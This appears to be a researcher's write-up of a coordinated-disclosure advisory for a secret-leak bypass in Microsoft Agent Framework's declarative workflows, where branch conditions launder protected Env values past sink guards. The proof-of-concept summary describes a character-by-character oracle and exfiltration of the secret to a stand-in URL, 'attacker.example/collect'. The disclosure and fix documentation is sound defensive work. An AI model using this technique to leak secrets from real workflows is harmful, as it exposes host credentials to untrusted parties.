



# GHSA-4532-fhjf-wq2q — Protected-value (sensitivity) boundary bypass in Microsoft Agent Framework declarative workflows

**Summary:** The declarative workflow engine tags any value derived from a protected `Env` entry as
`Sensitive` and refuses to emit it from any data sink. `ConditionGroupExecutor` evaluated an author-supplied
branch condition **without** that sensitivity guard, so a workflow author could branch on a protected secret
and assign a plain literal inside the taken branch — laundering the secret into a non-sensitive variable
through control flow and then exfiltrating it past the sink guard. This is a mitigation-bypass sibling of the
previously-fixed GHSA-9f26-7mqc-9vc4.

| | |
|---|---|
| **Advisory** | [GHSA-4532-fhjf-wq2q](https://github.com/microsoft/agent-framework/security/advisories/GHSA-4532-fhjf-wq2q) |
| **Vendor / Product** | Microsoft — Agent Framework, `Microsoft.Agents.AI.Workflows.Declarative` (.NET) |
| **Affected versions** | `< 1.26.0` (reproduced on 1.24.0 and on `main` @ `2d9cc3f`) |
| **Fixed in** | **1.26.0** (NuGet) |
| **Vulnerability type** | Protected-value sensitivity-boundary bypass → information disclosure (CWE-200 / CWE-203) |
| **CVSS v3.1 (as published)** | **6.5 (Moderate)** — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` |
| **MSRC case** | 159229 |
| **Relationship** | Mitigation-bypass sibling of GHSA-9f26-7mqc-9vc4 (fixed in 1.24.0) |
| **Discovery method** | Source-code audit of the sensitivity boundary (variant/mitigation-bypass analysis) |
| **Researcher** | Nicholas Mullenski (`@R00t3dbyFa17h`) |

## Background: the sensitivity boundary

`Microsoft.Agents.AI.Workflows.Declarative` enforces a protected-value boundary. Values derived from a
protected workflow `Env` entry are tagged `SensitivityLevel.Sensitive`, and every data sink
(`SendActivity`, `HttpRequestAction`, `InvokeMcpTool`, `InvokeFunctionTool`, `InvokeAzureAgent`, `Question`,
`AddConversationMessage`) refuses to emit a `Sensitive` value. This is the control Microsoft introduced and
hardened in 1.24.0 for GHSA-9f26-7mqc-9vc4 (rated High, CVSS 7.5).

## Description (root cause)

That boundary was incomplete. `Env`-derived values are marked `Sensitive` in `RootExecutor` and expression
sensitivity is computed as the maximum over all referenced variables
(`PowerFx/WorkflowExpressionEngine.GetSensitivity`). The data sinks reject `Sensitive` values, and variable
assignments propagate the tag.

The gap was in `ObjectModel/ConditionGroupExecutor.cs`, which evaluated the branch condition and branched on
its value with **no** sensitivity check and **no** taint propagation into variables assigned inside the taken
branch:

```csharp
EvaluationResult<bool> expressionResult = this.Evaluator.GetValue(conditionItem.Condition);
if (expressionResult.Value)
```

A literal assigned inside a branch body is tagged `None`, so the sink guard never fires. A workflow author can
therefore branch on a protected value and, inside the taken branch, assign a plain literal to an ordinary
variable — laundering the protected value into a non-sensitive variable via **implicit (control) flow**, then
passing it to any sink. This is a classic implicit-information-flow leak: the documented protected-value
control is bypassed even though every explicit data-flow sink is guarded.



## Attacker model

Identical to GHSA-9f26 (which Microsoft accepted and rated High): a host runs a declarative workflow
definition authored by a less-trusted party, exposes secrets to the workflow `Env` scope via the documented
`DeclarativeWorkflowOptions.AllowedEnvironmentVariables`, and lets the workflow reach a sink the author can
observe (activity text returned to the caller, an outbound HTTP request, an MCP/function tool call). The
author then exfiltrates host secrets.

## Impact

Full disclosure of any secret the host placed in the workflow `Env` scope (API keys, connection strings,
downstream credentials) to a less-trusted workflow author. Demonstrated against the published 1.24.0 package
with no network and a fabricated secret: the boundary correctly blocks direct and derived use of the secret;
a `ConditionGroup` oracle emits a secret-dependent value past the sink guard; the full plaintext secret is
recovered character-by-character; and a single workflow reconstructs the whole secret into a non-sensitive
variable and forwards it in one `HttpRequestAction` to an attacker-controlled URL — one-shot exfiltration over
the same external-send channel class as GHSA-9f26.

## Proof of Concept / Exploitation

The PoC ([`poc/`](poc/)) runs against the published NuGet package 1.24.0 with no network and a fabricated
secret. The secret never flows to a sink *directly*; it only ever **steers a branch**, and a plain literal
written inside the taken branch carries it out.



A three-scenario differential isolates the defect to control flow:



- **A — direct use** (`SendActivity "{Env.API_SECRET}"`): **BLOCKED** — "Cannot send sensitive activity text".
- **B — derived value** (`Left(Env.API_SECRET, 2)` → sink): **BLOCKED** — sensitivity propagates through data flow.
- **C — ConditionGroup oracle** (branch on the secret → assign a literal → sink): **EMITTED** `OUT=prefix_is_sk_live`.

A and B prove the data-flow boundary is active; C proves it is blind to control flow. Repeating C as an oracle
recovers the full secret character-by-character (`recovered = "sk_live_SECRETBIT", match=True`), and a single
workflow forwards it in one `HttpRequestAction` to `https://attacker.example/collect?d=<secret>`. Full captured
output and per-scenario evidence are in [`poc/`](poc/); a narrative walk-through is in [WRITEUP.md](WRITEUP.md).

## The fix

v1.26.0 routes the condition through the same sensitivity helper the GHSA-9f26 fix already added, so the
control-flow path and the data-flow sinks stay consistent. In `ConditionGroupExecutor` the evaluated condition
is passed through `GetNonSensitiveValue<T>` (inherited from `DeclarativeActionExecutor`), exactly as the MCP,
function, and HTTP executors do for their inputs, and the generated (ahead-of-time) condition path gets the
equivalent `Sensitive` check — so interpreted and generated workflows fail closed identically.

Reported alongside a variant-completeness note covering the other control-flow constructs that evaluate an
author expression (`QuestionExecutor`, `RetrieveConversationMessagesExecutor`, `ForeachExecutor`); the upstream
fix (PR #9357) closed those siblings in the same change.

## Timeline (coordinated disclosure)

| Date (2026) | Event |
|---|---|
| Oct 08 | Reported to Microsoft (MSRC) — Case 159229; runtime PoC against published NuGet 1.24.0 |
| Oct 13 | MSRC status → Planning (reproduced and accepted) |
| Oct 14 | MSRC confirmed the behavior; variant-completeness note submitted |
| Oct 15 | Upstream fix shipped — PR [#9357](https://github.com/microsoft/agent-framework/pull/9357) (`fix(dotnet): validate declarative control-flow inputs`) |
| Oct 23 | Advisory **GHSA-4532-fhjf-wq2q** published; fix released in NuGet **1.26.0** (Moderate, CVSS 6.5) |
| Oct 26 | Researcher credit accepted (`R00t3dbyFa17h`) |

## References

- GHSA advisory: https://github.com/microsoft/agent-framework/security/advisories/GHSA-4532-fhjf-wq2q
- Fixing PR #9357: https://github.com/microsoft/agent-framework/pull/9357
- Fixed package (NuGet 1.26.0): https://www.nuget.org/packages/Microsoft.Agents.AI.Workflows.Declarative/1.26.0
- Related (parent) advisory GHSA-9f26-7mqc-9vc4: https://github.com/microsoft/agent-framework/security/advisories/GHSA-9f26-7mqc-9vc4
- Source repository: https://github.com/microsoft/agent-framework

## Credit

Discovered and reported by **Nicholas Mullenski** (`@R00t3dbyFa17h`); credit accepted by Microsoft on
2026-10-26. Disclosed under coordinated disclosure.
